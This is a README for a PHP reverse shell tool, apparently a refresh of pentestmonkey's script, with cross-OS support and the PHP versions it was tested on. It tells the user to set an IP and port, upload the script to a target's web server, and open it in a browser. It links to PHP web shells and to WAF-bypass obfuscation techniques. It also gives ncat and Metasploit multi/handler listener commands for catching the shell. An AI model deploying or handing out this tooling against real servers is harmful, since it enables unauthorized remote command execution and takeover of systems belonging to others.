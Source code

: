 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is being used.

[/src/php\_reverse\_shell\_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell\_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the script as necessary.**

Copy [/src/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php\_reverse\_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

***

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple\_php\_web\_shell\_get\_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

***

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up an `ncat` listener:

```
ncat -nvlp 9000
```

Set up a `multi/handler` module:

```
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```
